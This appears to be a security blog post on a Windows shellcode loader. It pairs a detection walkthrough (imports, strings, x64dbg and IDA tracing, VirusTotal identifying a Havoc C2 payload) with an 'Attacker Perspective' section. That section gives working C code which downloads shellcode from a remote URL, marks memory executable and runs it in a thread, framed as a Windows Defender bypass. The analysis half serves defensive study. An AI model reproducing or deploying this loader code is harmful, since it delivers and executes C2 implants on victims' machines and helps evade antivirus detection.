# Analysis and Detection Perspective
Now we will begin the analysis and I will demonstrate how to flag this binary as malicious. Firstly, I will conduct a simple static analysis to gather insights about its behavior, such as the APIs used, strings, and so on. Afterward, we will proceed to the code analysis with ``x64dbg`` and ``IDA``.
By utilizing dumpbin with the ``/IMPORTS`` flag, we can observe the APIs employed in the code. It was noted that two DLLs are utilized, namely ``Wininet.dll`` and ``Kernel32.dll``. Analyzing the imports:




We can observe that it establishes an internet connection to make a request to a URL using ``InternetOpenUrlW`` and reads a file with ``InternetReadFile``. Therefore, it is worthwhile to search for the URL string. I used ``strings.exe`` and found the URL ``http://192.168.0.105:8080/demon.x64.bin``.



Alternatively, ``PEStudio`` can also be used, as it readily displays the URL string:



Continuing with the imports, it also utilizes APIs such as ``VirtualAlloc``, ``VirtualProtect``, ``CreateThread``, and ``WaitForSingleObject``. The combination of these APIs suggests a potentially malicious activity, wherein it reads a file from a web server and injects it into the local process, possibly a shellcode as indicated by the earlier string. Now, let’s attach it to the debugger and conduct a code analysis to delve even deeper into its functioning.
Attaching the ``deman.exe`` (sample) to ``x64dbg`` and ``IDA``, I will search for the aforementioned APIs, starting with the internet connection. It appears that the entire call to the URL is encapsulated within a separate function. Let’s analyze its input, output, and return values.



In the highlighted portion of the image where ``call deman.7FF603271040`` is, it calls the function responsible for downloading the payload and returning the payload bytes along with its size. The function’s utilizes the APIs mentioned earlier, such as ``InternetOpenUrlW`` and ``InternetReadFile``, for making internet calls and fetching the payload.



At the beginning of the function, some variables are declared. lpszUrl is a parameter passed to ``InternetOpenUrlW``, and the other parameters are outputs, with ``dwNumberOfByteRead`` storing the payload size. Upon closer analysis of ``InternetReadFile``, lpBuffer is the output parameter receiving the shellcode/bytecodes from the request made in the suspected payload file.


Returning to the main function, we observe the URL used as a parameter in the function reading the file through the request.




The ``call sub_140001000`` initiates the function call. When the function is called, it returns to InternetOpenUrlW, and we follow this behavior in the debugger.



When ``InternetOpenUrlW`` is successfully called, it jumps to ``InternetCloseHandle`` and then to ``LocalAlloc``, using ``test rax, rax`` to set the ``ZF`` flag for the jump to occur. This routine continues until returning to the main function.



Next, we analyze the usage of the ``VirtualAlloc`` API, passing ``0x04`` for ``flProtect`` (indicating ``PAGE_READWRITE``) and ``0x3000`` for ``flAllocationType`` (equivalent to ``1000 MEM_COMMIT + 2000 MEM_RESERVE``). dwSize represents the size of the memory space, and lpAddress is the optional starting address, passed as NULL through ``xor ecx, ecx``.
The crucial point here is the return of ``VirtualAlloc``, providing the address where the memory was allocated. In this case, ``VirtualAlloc`` returns ``“0x00000247B9310000``. Currently, it is in the following state:



Next, we see that ``memcpy`` and ``memset`` are used to copy the payload to the allocated memory address. ``memcpy`` takes the allocated address ``lpAddress``, the address size ``dwSize``, and the variable ``var_30`` containing the bytecodes from the function we named ``GetBytesFromUrl``. The subsequent memset clears the memory area of ``var_30``.



Now, we can check the allocated memory address and then save it as a binary file for analysis. Starting with ``VirusTotal``, it reveals the origin of the shellcode as the command and control ``(C2)`` called ``Havoc``.




The next step involves the use of the ``VirtualProtect`` API, which changes the memory protection at a given address. ``flNewProtect`` parameter is set as ``0x40``, equivalent to ``PAGE_EXECUTE_READWRITE``, which is suspicious, as it was initially allocated as ``READWRITE`` and later changed to ``EXECUTE``. dwSize represents the size in bytes of the memory to have its protection changed, and lpAddress is the initial address.



Subsequently, an attempt to create a thread with the allocated memory occurs, with the thread’s handle passed to ``WaitForSingleObject``, keeping the thread running indefinitely.



# Attacker Perspective
He makes a request to a web server, reading a file that contains the Shellcode for a command and control (C2). In this case, I am using Havoc. Then, we allocate memory, change the memory permissions, and create a thread with the allocated memory. Below, I will provide a more detailed overview of the steps:
1 — Function to retrieve the shellcode from a web server using Wininet.dll. It takes a URL as a parameter and returns the shellcode bytes along with its size.

```c
BOOL GetPayloadFromUrl(LPCWSTR szUrl, PBYTE* pPayloadBytes, SIZE_T* sPayloadSize) {

	BOOL bSTATE = TRUE;

	HINTERNET hInternet     = NULL,
	HINTERNET hInternetFile = NULL;

	DWORD dwBytesRead = NULL;

	SIZE_T  sSize             = NULL;
	PBYTE  pBytes            = NULL,
		pTmpBytes          = NULL;


	hInternet = InternetOpenW(NULL, NULL, NULL, NULL, NULL);
	if (hInternet == NULL){
		printf("[!] InternetOpenW Failed With Error : %d \n", GetLastError());
		bSTATE = FALSE; goto _EndOfFunction;
	}


	hInternetFile = InternetOpenUrlW(hInternet, szUrl, NULL, NULL, INTERNET_FLAG_HYPERLINK | INTERNET_FLAG_IGNORE_CERT_DATE_INVALID, NULL);
	if (hInternetFile == NULL){
		printf("[!] InternetOpenUrlW Failed With Error : %d \n", GetLastError());
		bSTATE = FALSE; goto _EndOfFunction;
	}


	pTmpBytes = (PBYTE)LocalAlloc(LPTR, 1024);

	if (pTmpBytes == NULL){
		bSTATE = FALSE; goto _EndOfFunction;
	}

	while (TRUE){

		if (!InternetReadFile(hInternetFile, pTmpBytes, 1024, &dwBytesRead)) {
			printf("[!] InternetReadFile Failed With Error : %d \n", GetLastError());
			bSTATE = FALSE; goto _EndOfFunction;
		}

		sSize += dwBytesRead;

		if (pBytes == NULL)
			pBytes = (PBYTE)LocalAlloc(LPTR, dwBytesRead);
		else
			pBytes = (PBYTE)LocalReAlloc(pBytes, sSize, LMEM_MOVEABLE | LMEM_ZEROINIT);

		if (pBytes == NULL) {
			bSTATE = FALSE; goto _EndOfFunction;
		}

		memcpy((PVOID)(pBytes + (sSize - dwBytesRead)), pTmpBytes, dwBytesRead);
		memset(pTmpBytes, '\0', dwBytesRead);

		if (dwBytesRead < 1024){
			break;
		}
	}


	*pPayloadBytes = pBytes;
	*sPayloadSize  = sSize;

_EndOfFunction:
	if (hInternet)
		InternetCloseHandle(hInternet);
	if (hInternetFile)
		InternetCloseHandle(hInternetFile);
	if (hInternet)
		InternetSetOptionW(NULL, INTERNET_OPTION_SETTINGS_CHANGED, NULL, 0);
	if (pTmpBytes)
		LocalFree(pTmpBytes);
	return bSTATE;
}
```

2 —We will allocate memory of the payload size using VirtualAlloc with read and write permissions. Subsequently, we copy the payload bytes to the allocated memory using memcopy and memset. The memory permission is then modified to allow execution with VirtualProtect. Following this, a thread is created using CreateThread, and WaitForSingleObject is employed to ensure the process continues until the entire payload has been executed.

```c
PVOID pShellcodeAddress = VirtualAlloc(NULL, sPayloadSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    if (pShellcodeAddress == NULL) {
        printf("[!] VirtualAlloc Failed With Error : %d \n", GetLastError());
        return -1;
    }

    printf("[*] Allocated Memory in 0x%p \n", pShellcodeAddress);
    getchar();

    memcpy(pShellcodeAddress, pPayloadBytes, sPayloadSize);
    memset(pPayloadBytes, '\0', sPayloadSize);

    printf("[*] Payload Writed in Memory Allocated...");

    DWORD dwOldProtection = NULL;

    if (!VirtualProtect(pShellcodeAddress, sPayloadSize, PAGE_EXECUTE_READWRITE, &dwOldProtection)) {
        printf("[!] VirtualProtect Failed With Error : %d \n", GetLastError());
        return -1;
    }

    HANDLE hThread = CreateThread(NULL, 0, LPTHREAD_START_ROUTINE(pShellcodeAddress), pShellcodeAddress, 0, NULL);
    if (hThread == NULL) {
        printf("[!] CreateThread Failed With Error : %d \n", GetLastError());
        return -1;
    }

  	WaitForSingleObject(hThread, INFINITE);
    return 0;
}
```

# Conclusion
In the context of Windows Defender bypass, this occurs by circumventing static analysis, as the shellcode is not directly written within the code. Instead, it makes a request and fetches the shellcode via an HTTP request; also, the memory protection is altered at runtime. Note that this technique in no way will evade more sophisticated defense solutions, such as EDRs.
A method was also demonstrated to capture what is allocated in memory at runtime using a debugger.
In this process, the debugger is used to monitor and analyze dynamic memory allocation during program execution. By setting breakpoints, inspecting registers, and traversing the code, it is possible to observe the addresses and contents of memory regions as they are allocated and manipulated at runtime.